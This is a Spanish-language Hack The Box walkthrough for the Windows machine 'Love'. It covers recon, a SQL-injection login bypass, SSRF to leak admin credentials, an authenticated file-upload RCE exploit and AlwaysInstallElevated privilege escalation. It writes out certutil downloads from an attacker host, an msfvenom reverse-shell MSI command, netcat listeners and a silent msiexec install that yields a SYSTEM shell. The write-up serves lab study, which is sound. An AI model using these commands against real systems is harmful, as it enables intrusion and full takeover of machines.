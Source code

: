 ## Summary

Tags: #Windows #HTTP #HTTPS #SSRF #RCE #ReverShell #WinPEAS #Msfvenom #Nmap 
N
- IP -> 10.10.10.239
- Ports -> TCP (80,135,139,443,445,3306,5000,5040,5985,7680,47001,), UDP (idk)
- OS ->  Windows 
- Services & Applications
    - 80 -> Apache httpd 2.4.46 
    - 443 -> HTTPS


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

* Podemos ver si se inyectan comandos SQL en la pagina web
```bash
❯ Ctrl + u                             # Para ver el codigo fuente
```

Cuando una Web es muy simple, podemos usar el siguiente comando 
```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Por lo que encontramos un posible **Admin** folder y lo colocamos en la url y efectivamente, nos coloca otra ventana de inicio de sesion pero en este caso nos pone usuario y passwd. 

```bash
❯ searchsploit  voting system                 # Para buscar un exploit
```
Para ver si hay vulnerabilidades con ese nombre. Encontramos uno que dice **Autentication Bypass 1.0 (SQLI)** y es un archivo .txt, los que dicen online creemos que no aplican 

```bash
❯ searchsploit -x 49843.txt              # Para ver el contenido del exploit 

	# x = examin
```
Para ver el contenido del archivo (x=examing)

Al ver contenido del exploit nos damos cuenta que debemos de tramitar un peticion por **POST** y debemos de meter en el login una inyeccion SQL. Por lo que nos disponemos a abrir BurpSuite y copiamos todo el login que se encuentra en el archivo .txt qye habiamos visto

Despues de colocar la inyeccion y darle Forward nos loggea automaticamente. 
Podemos enviar la data que encontramos en el Searchsploit con el boton de ‘Forward’ y luego desactivamos el ‘intercept a off’


**** 

Otra forma de hacerlo es por medio del puerto **443 ssl/http** en donde observamos que existe un subdominio el cual podemos utilizar para saber si hay algo que nos pueda ayudar. Pero antes debemos de agregar el **dominio y subdominio** a la ruta **/etc/hosts** ya que existe un virtual hosting.

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
* staging.love.htb y love.htb -> El dominio que debemos de agregar

Una vez agregado el subdominio podemos mirarlo en la pagina web 
Tiene una pestana de **demo** en donde hay una opcion que nos indica que ‘**especifiquemos una url**’

```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

```bash
❯ nvim test                              # Nos creamos un archivo llamado test en el cual le agregamos cualquier informacion
En la pagina web colocamos la url de nuestro servidor y buscamos ese archivo http://10.10.14.2/test y nos damos cuenta que nos muestra el contenido de nuestro archivo
```

Cuando la pagina web nos muestra informacion en la misma web podemos creer que es un SSRF
Por lo que nos podemos aprovechar de eso y hacer un **Server Side Request Forgery (SSRF)** 

Primero hacemos que escanee la url del puerto 80 **\http://127.0.0.1** o sea, escaneara el propio localhost de la maquina victima

Haremos que el mismo servidor se haga un internal port discovery desde el **local-host (\http://localhost:5000/ o \http://127.0.0.1:5000)** por el puerto 5000 ya que ese puerto es open, esto significa que el mismo servidor nos podria dar informacion por un puerto especifico haciendo la peticion internamente.

Ahi encontraremos el usuario admin y su passwd 

****

Buscaremos en searchsploit pero ahora el exploit en donde dice que ya estamos autenticados que se llama **File Upload RCE (Autenthicated Remote Code Execution)**

```bash
❯ searchsploit ❮exploit_name❯                 # Para buscar un exploit
```

```bash
❯ searchsploit -m ❮exploit_name❯              # Para descargarnos el exploit .py/.txt 

	# m = move
```
Puedes descargarte el archivo sploit ejecutable a tu computadora para despues poder ejecutarlo (m=move). Podemos observar que es el tipico sploit en el cual debes de meter IP, usuario, contrasena, IP de la revershell, Puerto de la revershell, para poder hacer esa autenticacion y poder ser ususario root.

```bash
❯ nvim 49445.txt                              # Para ver el contenido del exploit y modificarlo, para poder usarlo 
```

Debemos de hacer algunas modificaciones al script como:
* love.htb -> Colocarle la IP de la pagina victima
* admin -> usuario
* loveisintheair!!! -> passwd
* 10.10.14.2 -> Nuestra IP
* 443 -> Puerto de Netcat

Debemos quitarle todos los /**votesystem/** ya que eso no existe en nuestra ruta en el servidor victima.
```python
❯ python3 49445.py                            # Para ejecutar el exploit
```

Una vez corregido ejecutamos el script y nos pondemos en escucha en el puerto 443
```bash
❯ rlwrap nc -nlvp 443
```

## User

Una vez adentro nos vamos a:
```bash
❯ cd C:\Users                    # Nos cambiamos de directorio
❯ dir                            # Para ver el contenido del directorio
❯ cd Phoebe                      # Nos movemos al dir del usuario phoebe
❯ cd Desktop                     # En el desktop podemos encontrar la primer flag, user.txt
```

Ahora debemos de escalar privilegios para poder ser usuario root.
```bash
❯ cd Windows/temp                # Empezamos llendonos a ese directorio para crear una carpeta, ya que ese dir tiene privilegios de lectura y escritura
❯ mkdir Privesc                  # Creamos el directorio para escalar privilegios.
```

```bash
❯ systeminfo                     # Podemos observar la informacion del sistema Windows
```

* **Herramienta WinPEAS**: [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) 
Nos dirigimos a: Download the **latest obfuscated and not obfuscated versions from here**, -> Despues debemos de descargar el archivo **winPeasx64.exe**

Podemos usar la herramienta **Winpeas** en el sistema Windows. Nos dirigimos en Google a la pagina oficial en Github de Carlospolop y descargamos de ahi el archivo ejecutable de 64 bits. Lo encontramos en realises como **winPeasx64.exe**

Lo traemos a nuestra ruta de trabajo y nos creamos un servidor para poder subirlo a la maquina victima
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima Windows le decimos que queremos cargar un archivo.
```
❯ certutil.exe -f -urlcache -split \http://10.10.14.2/winPeas.exe winPeas.exe
```
Subiremos el archivo con el nombre de winPeas.exe y lo depositaremos como winPeas.exe en el equipo victima, esto se lograra con una peticion GET a nuestro servidor.

**WinPeas** sirve para detectar vias potenciales para poder escalar privilegios.
```bash
❯ winPeas.exe                            # Para ejecutar el archivo .exe en Windows
```

Podemos observar que de toda la informacion nos despliega el ‘**Checking AlwaysInstallElevated**’ y tiene:
* **set 1 in HKLM** 
* **set 1 in HKCU** lo cual es malo para esa maquina Windows.

* [Hacktricks](https://book.hacktricks.xyz/welcome/readme) nos ayudara a escalar privilegios

Vamos a la url que nos ofrece esa vulnerabilidad, 
Filtrmos por **AlwaysInstallElevated**
Nos indica que debemos utilizar el siguiente comando en nuestra maquina de atacante para poder crear un archivo que despues subiremos a la maquina Windows

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=10.10.14.2 LPORT=443 -f msi -o reverse.msi 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura
```


## Root

Una vez creado el archivo **.msi** lo subimos a la maquina victima creando un servidor con python como lo hicimos anteriormente.
```bash
❯ python3 -m http.server 80              # Nos montamos un servidor http 80
```

Despues en la maquina victima le decimos que queremos cargar ese archivo.
```bash
❯ certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi

	# Ip = Maquina de atacante
```
Buscamos el archivo con ese nombre **reverse.msi** y lo depositarremos como reverse.msi en el equipo victima Windows.

```bash
❯ rlwrap nc -nlvp 443
```

Para instalar el archivo .msi en una maquina Windows debemos de colocar el siguiente comando:
```bash
❯ msiexec /quiet /qn /i reverse.msi
```
Una vez que ejecutemos el archivo en la maquina victima Windows, esta nos dara una revershell y en este caso seremos usuario **Authority\System** que seria el root.
Ahora nos vamos al Desktop del Administrator y buscamos la flag root.txt